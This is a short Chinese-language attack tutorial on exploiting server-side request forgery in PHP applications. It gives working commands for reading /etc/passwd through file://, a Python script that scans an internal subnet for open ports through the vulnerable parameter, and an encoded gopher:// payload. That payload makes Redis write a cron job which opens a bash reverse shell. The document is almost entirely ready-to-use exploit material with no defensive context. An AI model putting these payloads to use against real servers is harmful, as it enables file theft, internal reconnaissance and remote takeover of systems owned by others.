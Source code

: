 在我们获取了我们的 SSRF 也就是控制了我们的一个 `file_get_content` 或者 `fsockopen`,或者 `curl_exec` 函数的时候。

我们如果希望能够在本地利用我们的 SSRF，我们的目的一般是：**获取我们的文件**，**探测端口**，**反弹 shell**。这个时候，我们就可以通过我们的下面的方法来进行

## 获取文件：

这里，我们利用到了我们的 file 伪协议来获取到我们的系统内部的资源 `/etc/passwd`。**可以做到任意文件读取**

```
curl -v 'file:///etc/passwd'
url=file://D:/images/111.png
```

```
url=file:///etc/passwd
```

## 查看端口
```
curl -v 'http://sec.com:8082/sec/ssrf.php?url=dict://127.0.0.1:22'
```

脚本：
```
# -*- coding: utf-8 -*-
import requests
import time
ports = ['80','6379','3306','8080','8000']
session = requests.Session();
for i in range(1, 255):
 ip = '192.168.0.%d' % i #内网ip地址
 for port in ports:
  url = 'http://ip/?url=http://%s:%s' %(ip,port)
  try:
   res = session.get(url,timeout=3)
   if len(res.text) != 0 :    #这里长度根据实际情况改
    print(ip,port,'is open')
  except:
   continue
print('Done')

```

## 反弹 shell
```
curl -v 'http://sec.com:8082/sec/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F127.0.0.1%2F2333%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a'
```

